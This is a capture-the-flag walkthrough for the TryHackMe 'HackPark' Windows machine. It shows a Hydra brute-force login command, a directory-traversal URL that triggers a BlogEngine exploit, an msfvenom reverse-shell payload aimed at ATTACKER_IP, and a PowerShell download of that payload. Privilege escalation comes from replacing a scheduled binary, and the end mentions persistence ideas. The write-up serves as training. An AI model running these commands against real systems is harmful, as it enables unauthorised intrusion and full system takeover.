









This box is rated medium difficulty on THM. It involves us brute forcing an admin login page with hydra, exploiting a known vulnerability within a blog engine to upload a reverse shell, and abusing a process executing a binary as administrator to escalate privileges and grab all flags.

Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!

## Scanning & Enumeration
As always I start off with an Nmap scan against the given IP to find any running services on the host. I repeat the same for UDP but find nothing.

```
$  sudo nmap -p80,3389 -sCV -Pn 10.64.158.102 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-25 21:28 CST
Nmap scan report for 10.64.158.102
Host is up (0.099s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http?
|_http-title: hackpark | hackpark amusements
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-01-26T03:28:41+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=hackpark
| Not valid before: 2026-01-25T03:21:20
|_Not valid after:  2026-07-27T03:21:20
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.00 seconds
```

There are just two ports open:
- An Apache web server on port 80
- RDP on port 3389

Looks like a windows machine with a web server and somewhere to logon. Checking the landing page shows a blog with the main picture of pennywise the clown.



I run a few gobuster scans in the background to find subdirectories/subdomains to save on time and dig deeper on the page. I get a hit back on /admin which redirects to a login panel.



I'm going to use Hydra to brute force passwords for pennywise, admin, root, and visitor1 (someone who commented). 

```
hydra -l admin -P /opt/SecLists/rockyou.txt 10.64.152.140 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin:__VIEWSTATE=D0sLAV1G9ruu11mPzJGi%2FO%2FvTgV%2FrNzkI5j%2BpbSyAjYPSTSkKr7mBo0q0enzssrtsl2NwgF419Vrun2qQOv9VuIST%2FGTwe6a4%2FI64jSXsIwBGmgBEmDEpuSAjzhuKyxV5s%2Btkwa5at7iL9UTKY5HvrN343EAIzV9tYsvOvkQ15nBRuyWmhAXR5HqVycjqD3AZeP4U70PPsbARvmOLyhedsAKepdY8xrSC7mX31ffIRTLCwu5DlM2moX6W6MdmM4akjSSh5uf%2FgKe68%2FdLFcR5JZOXk04FYDIOWpcQaizTQbzBzVc7U%2BsD6jgst7795a0z2XrZX65CQp1CCK9%2F6DMRYnrsk08uZki6LR8k%2Bge%2B3oSOIU8&__EVENTVALIDATION=sTVn1YlCzEtppFYP2Wn7SJfSRKyGAo7MOB6uoZMM2ri7Sjh0fYXhLUVZ2aGY0xPyUvKbdMvKmybIXWvQVAzxC6ErwPLtmxYTHAG%2FlqO4uZPDX2oLwVT8BHhE7nE%2BmhTvHwldxXnHUtWAQmZJu9Wjq9CWEtdrR4WUSQeyTvpbqmOmSJC7&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

I get a valid password for admin we can use to sign in with.



## Initial Foothold
My first thoughts were to change a template page's source code to be a reverse shell and navigate to it, but the themes seemed premade and didn't allow for raw code to be replaced. A bit more looking around disclosed the site's engine and version.



I find an RCE/Directory traversal exploit for this application which will allow us to grab a reverse shell. This exploit exists due a local file inclusion vulnerability in PostList.ascx.cs that allows attackers to use the PostView.ascx component to upload files using the file manager utility. [Here](https://www.exploit-db.com/exploits/46353) is a link to the one I used.

First we download the raw exploit using wget and change the IP/Port to point towards our attacking machine. Next, up we change the filename to PostView.ascx and navigate to a post on the site's content page. When editing the post, in the top right is a file manager icon we can use to upload our malicious script at.



Finally, setup our Netcat listener and use the following URL to traverse directories into where our script is at to proc the reverse shell.

```
http://MACHINE_IP/?theme=../../App_Data/files
```



We're currently running as the web server with a crappy shell, so let's upgrade it with an msfvenom payload.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER_IP] LPORT=[PORT] -f exe > shelly.exe
```

I uploaded it to a `C:\Temp` directory with Powershell's Invoke-WebRequest command.

```
powershell -c "Invoke-WebRequest -Uri 'http://ATTACKER_IP:PORT/shelly.exe' -Outfile 'C:\Temp\shell.exe'"
```

Then setup a meterpreter handler using Metaspoit and manually execute it on the remote machine to get an upgraded shell. Make sure to set the handler's payload to the one used in the msfvenom command to ensure a valid connection.



## Privilege Escalation
Now we can start looking at ways to escalate privileges other administrator. We can display the OS version using sysinfo in our meterpreter shell and use that to find any exploits using [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) or upload [WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS) like I did.

Doing so will result in us finding a vulnerable .exe file under C:\Program Files (x86) . The Events folder under SystemScheduler has a log file which displays that the Administrator is stopping and starting the service, meaning it will run as their account as well.


This log file shows that the `Message.exe` is being ran by admin and we also have the ability to replace that .exe name with our own shell by moving the preexisting one to a backup file and shoving ours in its place.

I'll upload the same shell from earlier as it's already compiled using the Powershell `Invoke-WebRequest` method again.



Now we can setup another Metasploit handler and wait for the background process to run it as administrator to get full access over the system.



Finally grabbing both the user flag under the `C:\Users\Jeff\Desktop` folder and the root flag under the respective Admin one completes the box. This was a fun and simple one, I liked enumerating the machine to find which binary was subject to be exploited.

For persistence we could hash dump the system, create some type of backdoor using the same binary, or add a user with administrator level privs.

I hope this was helpful to anyone following along or stuck and happy hacking!
